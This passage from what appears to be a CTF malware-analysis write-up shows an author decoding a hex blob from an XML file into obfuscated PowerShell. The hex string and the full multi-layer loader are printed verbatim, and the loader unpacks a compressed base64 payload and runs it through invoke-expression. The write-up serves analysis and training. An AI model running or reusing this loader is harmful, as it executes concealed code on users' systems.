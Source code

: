 ```xml
-4C-41-43-45-20-20-28-5B-63-48-41-72-5D-31-30-34-2B-5B-63-48-41-72-5D-31-32-30-2B-5B-63-48-41-72-5D-35-34-29-2C-5B-63-48-41-72-5D-33-39-29-20-7C-2E-20-28-20-24-76-45-52-62-6F-53-45-70-72-65-46-65-52-65-6E-43-65-2E-74-4F-53-74-72-49-4E-47-28-29-5B-31-2C-33-5D-2B-27-78-27-2D-4A-4F-69-6E-27-27-29</Binary>
```

We copy it to sublime text, John Hammond style :) then remove all the `-` . we get something like this

![image](/assets/img/Posts/huntress/chainsaw/hex_binary.PNG)

We convert this hex values to a file in CyberChef and then save the output to a file. Opening it in sublime text we are welcomed with some very well obfuscated PowerShell code.

```powershell
(('. ( ZT6ENv:CoMSpEc[4,24,'+'25]-joinhx6hx6)( a6T ZT6( Set-variaBle hx6OfShx6 hx6hx6)a6T+ ( [StriNg'+'] [rEGeX]::mAtcheS( a6T ))421]RAhC[,hx6fKIhx6eCALPeR-  93]RAhC[,)89]RAhC[+84]RAhC[+98]RAhC[( EcalPeRC-  63]RAhC[,hx6kwlhx6EcalPeRC-  )hx6)bhx6+hx60Yb0Yhx6+hx6niOj-]52,hx6+hx642,hx6+'+'hx64[cehx6+hx6phx6+hx6SMoC:Vnhx6+hx6ekwl ( hx6+hx6. fKI ) (DnEOTDAhx6+hx6ehx6+hx6r.)} ) hx6+'+'hx6iicsA:hx6+hx6:]GnidOcNhx6+hx6e.hx6+hx6Thx6+hx6xethx6+hx6.hx6+hx6METsys[hx6+hx6 ,_kwhx6+h'+'x6l (REDhx6+hx6AeRmaertS.o'+'Ihx6+hx6 thx6+hx6Chx6'+'+hx6ejbO-Wh'+'x6+hx6En { HCaERoFhx6+hx6fKI) sSERpM'+'oCehx6+hx'+'6dhx6+hx6::hx6+hx6]'+'edOMhx6+hx6'+'nOisSErPMochx6+hx6.NoISSerhx6+hx6pMOc.oi[, ) b'+'0Yhx6+hx6==wDyD4p+S'+'s/l/hx6+hx6i+5GtatJKyfNjOhx6+'+'hx63hx6+hx63hx6+hx64Vhx6+hx6vj6wRyRXe1xy1pB0hx6+hx6AXVLMgOwYhx6+hx6//hx6+hx6Womhx6+hx6z'+'zUhx6+hx6tBhx6+hx6sx/ie0rVZ7hx6+hx6xcLiowWMGEVjk7JMfxVmuszhx6+hx6OT3XkKu9TvOsrhx6+hx6bbhx6+hx6cbhx6+hx6GyZ6c/gYhx6+hx6Npilhx6+hx6BK7x5hx6+hx6Plchx6+hx68qUyOhBYhx6+hx6VecjNLW42YjM8SwtAhx6+hx6aR8Ihx6+hx6Ohx6+hx6whx6+hx6mhx6+hx66hx6+hx6UwWNmWzCw'+'hx6+hx6VrShx6+hx6r7Ihx6+hx6T2hx6+hx6k6Mj1Muhx6+hx6Khx6+hx6T'+'/oRhx6+hx6O5BKK8R3NhDhx6+hx6om2Ahx6+hx6GYphx6+hx6yahx6+hx6TaNg8DAneNoeSjhx6+h'+'x6ugkTBFTcCPaSH0QjpFywhx6+'+'hx6aQyhx'+'6+hx6HtPUG'+'hx'+'6+hx6DL0BK3hx6+h'+'x6lClrHAvhx6+h'+'x64GOpVKhx6+hx6UNhx6+hx6mGzIDeraEvlpc'+'kC9EGhx6+hx6gIaf96jSmShx6'+'+hx6Mhhx6+hx6hhx6+hx6RfI72hx6+hx6oHzUkDsZoT5hx6+hx6nhx6+hx6c7MD8W31Xq'+'Khx6+hx6d4dbthx6+hx6bth1RdSigEaEhx6+hx6JNERMLUxV'+'hx6+hx6ME4PJtUhx6+hx6tSIJUZfZhx6+hx6EEhx6+hx6Ahx6+hx6JsTdDZNbhx6+hx60Y(gniRTS4hx6+hx66esh'+'x6+hx6aBmoRF::]tRevnOhx6+hx6C[]MAertsYrOmeM.Oi.mETSYs[ (MaErhx6+hx6thx6+hx6sEtALfeD.NOhx6+hx6IsS'+'erPmo'+'c.OI.mehx6+hx6TsYShx6'+'+hx6 hx6+hx6 tCejbO-WEhx6+hx6n ( hx6(((no'+'IsseRpX'+'e-ekovni a6T,hx6.hx6,hx6RightToLEFthx6 ) RYcforEach{ZT6_ })+a6T ZT6( sV hx6oFshx6 hx6 hx6)a6T ) ')  -cREpLACE ([cHAr]90+[cHAr]84+[cHAr]54),[cHAr]36 -rEPlAce'a6T',[cHAr]34  -rEPlAce  'RYc',[cHAr]124 -cREpLACE  ([cHAr]104+[cHAr]120+[cHAr]54),[cHAr]39) |. ( $vERboSEpreFeRenCe.tOStrING()[1,3]+'x'-JOin'')
```
